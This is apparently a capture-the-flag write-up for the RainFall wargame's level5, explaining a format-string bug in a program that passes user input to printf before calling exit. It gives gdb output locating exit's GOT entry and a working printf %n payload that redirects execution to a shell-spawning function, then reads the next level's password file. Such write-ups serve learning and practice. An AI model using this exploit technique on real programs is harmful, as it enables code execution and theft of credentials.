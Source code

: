 ### Brief
In this program there is a `main`, `n` and `o` function
`main` only call n.
`n` has a stack buffer of `520`, fill it with `fgets`, use `printf` on the buffer and `exit`.
`o` is a function that open a new shell.

### Exploit
We will the same exploit as before and use printf to overwrite the value at a certain address.
We see that the `exit` function is called right after `printf`
We can disas `exit` and we see that it dereference a pointer and call the function located in this address.
We will use `printf` to rewrite the address called by the `exit` function

```bash
level5@RainFall:~$ gdb level5 
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   ...
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

`exit` call the function located at address `0x8049838` and we can rewrite what this address contains.

Our input is located 4th in the stack.
```bash
level5@RainFall:~$ python -c "print('\xef\xbe\xad\xde|' + '%x '*5)" | ./level5
ﾭ�|200 b7fd1ac0 b7ff37d0 deadbeef 2078257c
```

### Get access

```bash
(python -c "print('\x38\x98\x04\x08' + '%x'*2 + '%134513813x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5
```